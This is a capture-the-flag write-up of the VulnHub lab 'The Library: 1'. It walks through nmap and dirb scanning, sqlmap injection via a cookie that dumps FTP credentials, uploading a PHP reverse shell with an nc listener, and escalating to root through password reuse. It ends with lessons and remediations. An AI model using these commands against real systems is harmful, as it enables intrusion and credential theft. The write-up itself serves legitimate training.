





# The Library: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.103 (host-only) |
| **Difficulty** | Beginner |
| **OS** | Linux |
| **Root Flag** | root shell via password reuse |
| **Author** | Avraham Cohen |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/the-library-1,300/) |

## Attack Summary

nmap → FTP (21) + HTTP (80) → dirb `.php` → `/library.php` → SQLi via cookie (sqlmap) → FTP creds → PHP reverse shell upload → su root (DB password reuse)

## Methodology

1. Network discovery
2. Web enumeration (dirb with `.php` extension)
3. SQL injection via cookie (sqlmap)
4. FTP access and PHP shell upload
5. Privilege escalation via password reuse

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
```

Then full scan:

```bash
nmap -A 192.168.1.103
```

Open ports: **21 (FTP)**, **80 (HTTP)**.



---

## Step 2: Web Enumeration

The homepage at port 80 is blank. Run dirb scanning for `.php` files:

```bash
dirb http://192.168.1.103 -X .php
```

Finds `/library.php` — a page listing country names.



---

## Step 3: Cookie SQL Injection

Capture the request to `/library.php` in Burp Suite. There is a `lastviewed` cookie whose value is a base64-encoded string that maps to a database query. Mark the injection point with `*` and save as `file.txt`.

Enumerate databases:

```bash
sqlmap -r file.txt --dbs --batch --risk 3 --level 5
```

Dump all tables from the `library` database:

```bash
sqlmap -r file.txt -D library --dump-all --batch
```

This reveals FTP credentials: **globus / AroundTheWorld**



---

## Step 4: FTP Shell Upload

Log in to FTP and browse the web root:

```bash
ftp 192.168.1.103
# user: globus
# pass: AroundTheWorld
cd /var/www/html
ls
```

Copy and configure a PHP reverse shell:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# Edit $ip and $port in shell.php
```

Upload it:

```bash
ftp> put shell.php
ftp> chmod 777 shell.php
```

Start listener and trigger the shell:

```bash
nc -lvp 1234
# browser: http://192.168.1.103/shell.php
```



---

## Step 5: Privilege Escalation

Stabilize the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
cd /var/www/html
cat library.php
```

The PHP source contains the database password. Try it for root:

```bash
su root
# enter password from library.php
id
```

Root access obtained.



---

## Lessons Learned

1. **Cookie-based SQL injection** — any user-controlled input reaching SQL, including cookies, must use parameterized queries
2. **FTP write access to webroot** — FTP users should never have write access to the web document root
3. **Credential reuse across services** — database passwords should not be reused as OS account passwords
4. **Verbose PHP errors / source exposure** — credentials embedded in PHP source are readable once shell access is gained

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SQLi in cookie | Use PDO/prepared statements; never concatenate user input into queries |
| FTP write to webroot | Restrict FTP chroot; separate FTP from web root |
| Password reuse | Use unique passwords for each service and OS account |
| Weak FTP credentials | Enforce strong credentials; prefer SFTP with key auth |
